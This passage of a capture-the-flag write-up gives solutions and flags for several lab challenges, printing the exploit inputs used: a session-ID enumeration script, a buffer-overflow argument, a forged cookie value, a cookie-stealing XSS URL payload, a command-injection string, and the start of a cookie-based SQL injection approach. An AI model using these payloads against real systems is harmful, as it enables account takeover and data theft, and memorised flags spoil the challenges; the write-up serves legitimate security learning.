         ```python
        import requests
        
        with open("results.txt", "w+") as f:
          for x in range(77, 79):
            post_params = {"userID":24,
                          "sessID": x}
            URL  = "https://www.bondogge.com/createPost?"
            data = requests.post(URL, post_params).text + "\n"
            f.write(data)
        f.close()
        ```
        
    
    Flag: br1ti5h.bulld0gZ
    
- L11C7 Stepping Up
    - The Solution (Not written by me)
        - Changed "de4dc0de" to octal and added 0's to overflow.
        
        `./program-x86 $(printf "00000000000000000\336\300\115\336")`
        
        - The secret is de4dc0de
    
    Flag: IilDCuiVBmySueH37tB
    
- L11C8 Unsafe Deposit Box
    - Change the `deposit_user` cookie’s value to `32f35nh98gf3hy9085g398g35y98f43h9f3g234f27w624`
    
    Flag: Varies
    
- L11C9 Vicious Voicemail
    - Put the 1st file into [this](https://futureboy.us/stegano/decinput.html) website and it gave me the flag.
    
    Flag: sTg9UtlFLRUOXt7tTSS
    
- L11C10 Exposure
    - Turns out the website uses a vulnerability call the “CVE-2012-2399” vulnerability
    - To get the flag add the red text below to the end of the URL
    
    `?buttonText=%3Ca%20href=%27javascript:alert(document.cookie)%27%3EClick%20me%3C/a%3E`
    
    Flag: Varies
    
- L11C11 Cryptonite
    - Run `cryptonite -n; ls -a` to list all files and run `cryptonite -n; cat security-blueprints.txt` to get the flag
    
    Flag: Varies
    
- L11C12 Open Box
    - Solution (not mine)
        
        fake browser url is static, so probably js/cookie/other injection. `SQL_SESSuser` is unusual ("hinted" in challenge.js)
        
        sql injection is the first guess here, so we try to do it through the cookie ([reference](https://resources.infosecinstitute.com/topic/cookie-based-sql-injection/)):
        